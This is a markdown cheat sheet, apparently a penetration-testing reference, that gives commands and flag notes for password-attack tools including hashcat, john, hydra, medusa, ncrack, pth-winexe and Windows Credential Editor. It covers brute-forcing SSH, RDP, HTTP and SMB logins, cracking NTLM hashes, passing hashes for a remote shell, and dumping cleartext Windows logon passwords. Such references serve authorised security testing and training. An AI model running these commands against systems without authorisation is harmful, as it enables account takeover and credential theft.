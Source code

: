 # [cewl](https://tools.kali.org/password-attacks/cewl):
#### `cewl <website.com> -m 6 -w <hash_file>`
  * -m sets the minimum word length
  * -w writes to a file
  
# [crack.sh](https://crack.sh/get-cracking/):
  * very interesting website that offers cracking services for DES, Windows, and WPA hashes

# [crunch](https://tools.kali.org/password-attacks/crunch):
#### `crunch 6 6 0123456879abcdef -o <hash_file>`
   * first param is min password size
   * second param is max password size
   * custom alphabets supported
   * -t allows you to specify a pattern, but the syntax isn't intuitive
   
# [fgdump](https://web.archive.org/web/20191202010850/http://foofus.net/goons/fizzgig/fgdump/):
#### `fgdump.exe`
  * dumps password hashes from older Windows versions

# [hashcat](https://tools.kali.org/password-attacks/hashcat):
#### `hashcat -m 110 <hash_file> <wordlist_file> --force`
#### `hashcat -m <1000/5500/5600> -a 0 <hash_file> <wordlist_file> -O`
  * -m specifies hash type; see the man page for reference
    * 1000 for NTLM, 5500 for Net-NTLMv1, 5600 for Net-NTLMv2
  * --force ignores warnings
  * -a specifies attack type; see the man page for reference
    * 0 for wordlist, 3 for brute force
  * cached results are in `~/.hashcat/hashcat.potfile`

# [hydra](https://tools.kali.org/password-attacks/hydra):
#### `hydra -l <username> -P <hash_file> -t 10 ssh://X.X.X.X`
  * -l chooses username (caps for file)
  * -p chooses password (caps for file)
  * -t specifies number of tasks to run in parallel
  * -w makes hydra wait in between attempts to avoid being blocked

# [medusa](https://web.archive.org/web/20191115182453/https://www.mankier.com/1/medusa):
#### `medusa -h X.X.X.X -u <username> -P <hash_file> -M http -m <directory> -T 20`
#### `medusa -H <host_file> -u <username> -M smbnt -m PASS:HASH`
  * -T determines number of threads
  * -M specifies the module to run
  * -m specifies parameters to pass
  * -n for non-default TCP port numbers
  * -f stops once a valid user/pass combo is found
  
# [ncrack](https://tools.kali.org/password-attacks/ncrack):
#### `ncrack -v -f --user <username> -P <hash_file> rdp://X.X.X.X CL=1`
  * -CL determines number of open connections at a time
  * -f stops after a valid user/pass combo is found

# [pth suite](https://www.kali.org/tutorials/pass-the-hash-toolkit-winexe-updates/):
#### `pth-winexe -U  <username> //X.X.X.X cmd`
  * there are many modules in the pth suite, check them out

# [john the ripper](https://tools.kali.org/password-attacks/john):
#### `john <hash_file>`
#### `john --wordlist=<wordlist> <hash_file>`
#### `john --format=<nt/netntlm/netntlmv2> --wordlist=<wordlist> <hash_file>`
  * --wordlist[=<hash_file>] allows you to give it the word you want to run against the hash
  * --fork[=n] allows you to spawn multiple processes
  * --session[=<name>] names a session that you can restore later
  * --restore[=<name>] restores the session
  * /etc/john/john.conf can be used to do password fuzzing on an existing wordlist (adding numbers for instance)
  * nt for NTLM, netntlm for Net-NTLMv1, netntlmv2 for Net-NTLMv2

# [windows credential editor](https://web.archive.org/web/20191202011255/https://www.ampliasecurity.com/research/wcefaq.html):
#### `wce32.exe -w`
  * -w dumps cleartext logon passwords
  * -o specifies an output file
  * -g generates an NTLM hash for the supplied cleartext password
